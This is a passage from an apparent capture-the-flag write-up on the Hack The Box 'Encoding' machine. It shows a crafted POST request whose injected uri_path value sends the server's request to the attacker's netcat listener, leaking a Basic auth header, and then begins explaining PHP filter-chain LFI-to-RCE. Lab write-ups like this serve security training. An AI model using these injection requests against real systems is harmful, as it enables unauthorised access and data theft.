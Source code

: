 I'll send the POST request to `haxtables.htb/handler.php` into Burp
Repeater and update the `uri_path`:



    POST /handler.php HTTP/1.1
    Host: haxtables.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/json;charset=UTF-8
    Content-Length: 69
    Origin: http://10.10.11.198
    Connection: close
    Referer: http://10.10.11.198/index.php?page=string

    {"action":"md5","data":"0xdf was here","uri_path":"@10.10.14.6"}



I'll start `nc` listening on 80 and on sending the above request,
there's a request at `nc` from Encoding:



    POST /index.php HTTP/1.1
    Host: 10.10.14.6
    Authorization: Basic YXBpLmhheHRhYmxlcy5odGI6
    Accept: */*
    Content-Type:application/json
    Content-Length: 64

    {"data":"0xdf was here","action":"md5","uri_path":"@10.10.14.6"}



Rather than sending to `api.haxtables.htb`, it's hit my server. The
`Authorization` header has base64 data that decodes to that `userinfo`:



    oxdf@hacky$ echo "YXBpLmhheHRhYmxlcy5odGI6" | base64 -d
    api.haxtables.htb:



### LFI -\> RCE

#### Background

It used to be that to take an local file include (LFI) to remote code
execution (RCE), you needed to get malicious PHP code into a file on the
server somewhere, by abusing an unsafe file upload or something like log
poisoning.

Then came PHP filter injection, explained in detail in [this Synacktiv
post](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.md),
perhaps first published in [this CTF
writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d).
I went into this technique in the [Beyond Root for
UpDown](/htb-updown.md#beyond-root---lfi2rce-via-php-filters)
and made [this video](https://www.youtube.com/watch?v=TnLELBtmZ24)
showing it in detail:
